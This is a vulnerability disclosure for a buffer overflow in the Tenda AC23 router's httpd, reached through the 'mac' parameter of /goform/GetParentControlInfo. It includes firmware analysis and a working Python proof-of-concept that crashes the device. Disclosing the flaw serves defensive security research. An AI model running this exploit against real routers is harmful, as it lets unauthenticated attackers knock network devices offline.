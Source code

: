 # Stack-Based Buffer Overflow in Tenda Wi-Fi 5 Router AC23 (AC23V1.0re_V16.03.07.52)  
## Overview
A stack-based buffer overflow vulnerability exists in the Tenda Wi-Fi 5 Router AC23 device running firmware version AC23V1.0re_V16.03.07.52. Due to insufficient restrictions on certain parameters and the lack of boundary checks in the `GetParentControlInfo` function, a stack overflow may occur. Unauthenticated remote attackers can execute a Denial of Service (DoS) attack via parameters in the endpoint: `/goform/GetParentControlInfo``sub_433CF4``formDefineTendDa`

## Vulnerability Details
+ **Vendor**: Shenzhen Jixiang Tenda Technology Co., Ltd. ([https://www.tenda.com.cn](https://www.tenda.com.cn))  
+ **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)  
+ **Affected Product**: Tenda Wi-Fi 5 Router AC23 device  
+ **Affected Version**: AC23V1.0re_V16.03.07.52  
+ **Attack Vector**: Exploiting functions without boundary checks and with insufficient parameter restrictions, using carefully constructed payloads to cause a stack-based buffer overflow  
+ **Impact**:  
    - Denial of Service (DoS)
+ **Affected Component**: `/goform/GetParentControlInfo`, `sub_433CF4`, `formDefineTendDa`  
+ **CVE ID**: Pending (CVE application in progress)  
+ **Discovered by**: xxricardoxkk (xxricardoxkk@gmail.com)  
+ **Firmware**: [https://www.tenda.com.cn/material/show/3889](https://www.tenda.com.cn/material/show/3889)

## Discovery
This vulnerability was discovered by analyzing the firmware (US_AC23V1.0re_V16.03.07.52_cn_TDC01.bin). The following call chain exists in the `squashfs-root/bin/httpd` file:  
`main → sub_433BE4 → formDefineTendDa → GetParentControlInfo`  

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC23/image/main%E8%B0%83%E7%94%A8.png)

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC23/image/formDefineTendDa1.png)

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC23/image/formDefineTendDa2.png)

`s` is a buffer allocated via `malloc(0x254u)`, with a size of 0x254 bytes and initialized to all zeros. The target address is `s + 2`, meaning data copying starts from the 3rd byte of `s`, leaving 602 bytes of available space (604 - 2). `Var` is external input obtained via `websGetVar(a1, "mac", &unk_4DB6AC)` (a user-controllable "mac" parameter value). The `strcpy` function continuously copies characters from `Var` until a `\0` is encountered, without verifying if the target buffer can accommodate all data. As external input, `Var` may exceed 602 bytes in length.  

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC23/image/%E6%BA%A2%E5%87%BA%E7%82%B9.png)

Thus, a carefully crafted payload at the interface path `/goform/GetParentControlInfo` can trigger a buffer overflow.  

## Steps to Reproduce
Construct the following payload using Python:  

```python
import requests  

# 构造溢出载荷  
def create_payload():  
    buffer_size = 512000  
    payload = b"A" * buffer_size  
    v11_value = b"\xef\xbe\xad\xde"  
    payload += v11_value  
    return payload  

# 构造 HTTP 请求并发送  
def send_payload(url, payload):  
    params = {'mac': payload}  
    response = requests.get(url, params=params)  
    response = requests.get(url, params=params)  
    response = requests.get(url, params=params)  
    response = requests.get(url, params=params)  
    print("Response status code:", response.status_code)  
    print("Response body:", response.text)  

if __name__ == "__main__":  
    # 目标 URL  
    url = "http://192.168.190.239/goform/GetParentControlInfo"  
    # 创建恶意载荷  
    payload = create_payload()  
    # 发送恶意请求  
    send_payload(url, payload)  
```

Use QEMU to emulate the `httpd` extracted from `US_AC23V1.0re_V16.03.07.52_cn_TDC01.bin` (note: this file is for the MIPS little-endian architecture; IDA must be used to modify `httpd` to adapt to the emulation environment).  

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC23/image/patch.png)

As shown in the figure below, emulation is successful.  

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC23/image/payload.png)

Use this script to trigger the stack overflow.  

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC23/image/%E8%A7%A6%E5%8F%91.png)

## Impact
Unauthenticated remote attackers can execute a Denial of Service (DoS) attack via parameters in this endpoint.  
